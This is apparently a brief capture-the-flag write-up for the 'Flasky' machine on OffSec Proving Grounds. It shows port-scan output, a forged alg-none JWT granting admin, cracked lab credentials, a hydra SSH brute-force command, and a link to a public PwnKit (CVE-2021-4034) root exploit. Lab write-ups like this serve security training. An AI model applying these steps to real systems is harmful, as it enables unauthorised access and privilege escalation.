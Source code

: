 # Flasky

## Info

Flasky is an intermediate linux machine from offsec proving grounds.

## Nmap

All tcp port scan.

```
22/tcp    open  ssh     syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
5555/tcp  open  http    syn-ack ttl 61 nginx 1.18.0 (Ubuntu)
20202/tcp open  http    syn-ack ttl 61 nginx 1.18.0 (Ubuntu)
```

## HTTP 20202

Change the jwt token to the following.

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpZCI6ICIwIiwiZ3Vlc3QiOiAiZmFsc2UiLCJhZG1pbiI6IHRydWV9.
```

This changes alg none, id to 0, guest false and admin true. This can be done with base64. Then login with admin:admin and use the above jwt.

There is a link in johns message to `cisco_config`.

Using the following website to crack the passwords.

```
https://www.ifm.net.nz/cookbooks/passwordcracker.html
```

Credentials.

```
angie:@ngie@1337
jane:S3cR3TL33t
jill:jill@lijj
john:NezukoCh@n
admin:PY1h0nFl@sK
kunal:P@tel
```

Using hydra.

```
hydra -C creds.txt <ip> ssh
```

john creds allow login.


## Root

The following exploit gets root.

```
https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py
```
